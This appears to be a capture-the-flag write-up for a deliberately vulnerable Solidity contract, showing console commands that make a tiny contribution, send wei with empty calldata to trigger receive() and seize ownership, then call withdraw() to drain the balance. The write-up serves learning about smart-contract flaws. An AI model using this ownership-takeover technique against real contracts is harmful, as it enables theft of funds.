 tx id: `0x0a7c7bc3dee8c8be2baa8fc30c82d9e57df81e16aea1bea3c96b9ba9542b53ac`

examining storage:

`await contract.owner()`: "0x3c34A342b2aF5e885FcaA3800dB5B205fEfa3ffB"

`await contract.contributions("0x3c34A342b2aF5e885FcaA3800dB5B205fEfa3ffB")`: words: Array(4) [ 44040192, 40595831, 222044, … ] // contributions == 84858067

# claim ownership of the contract:

two ownership transfers (`owner = msg.sender;`) to examine:

1. ```
   function contribute() public payable {
     require(msg.value < 0.001 ether);
     contributions[msg.sender] += msg.value;
     if(contributions[msg.sender] > contributions[owner]) {
       owner = msg.sender;
     }
   }
   ```

   `contract.contribute({value: 84858068})` => `await contract.getContribution()` => words: (3) [17749204, 1, empty]

   weird.. but at least it fulfilled `contributions[msg.sender] > 0` which will be useful in a sec

2. ```
   receive() external payable {
       require(msg.value > 0 && contributions[msg.sender] > 0);
       owner = msg.sender;
     }
   ```

   from [solidity docs](https://docs.soliditylang.org/en/latest/contracts.html#special-functions):

   "the receive function is executed on a call to the contract with empty calldata"

   so one sends 84858067+1 wei to the instance contract with empty calldata to claim ownership of the contract

# reduce balance to 0

now that ownership is claimed, just `contract.withdraw()`
